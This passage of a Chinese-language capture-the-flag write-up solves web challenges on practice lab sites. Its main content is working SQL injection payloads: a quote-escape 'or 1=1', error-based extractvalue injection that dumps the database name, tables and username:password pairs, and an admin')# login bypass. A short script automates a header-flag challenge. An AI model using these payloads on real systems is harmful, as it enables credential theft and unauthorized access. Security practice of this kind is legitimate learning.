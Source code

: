 还有响应头：Content-Type：text/html; charset=gb2312
payload
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1%a0%27 or 1=1 limit 2,1%23

6.http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1

```
利用报错注入

http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,database())),1)

数据库：mydbs

http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema=0x6d79646273 limit 0,1 ))),1)

爆表

http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=7&num=1 procedure analyse(extractvalue(1,concat(0x3a,(select concat(username,0x3a,password) from user limit 2,1 ))),1)

爆数据

```

### 写点脚本的

注意看响应头，You must do it as fast as you can!，这个手速是不行的，必须编程获取后解码，跟着post数据：key=XXXXXXXXXXXXX

http://ctf4.shiyanbar.com/web/10.php

脚本如下

```
import requests
import base64

url='http://ctf4.shiyanbar.com/web/10.php'
req=requests.get(url)
print req.text
key=req.headers['FLAG']
key=base64.b64decode(key)
key=key.split(':')[1].strip()
data={'key':key}
r=requests.post(url,data=data)
print(r.text)

```

### 后台登陆型

给了源代码，主要看sql语句，注释掉后面的and (pw='$pass')，当注意闭合小括号 payload ：user=admin')#&pass=432142
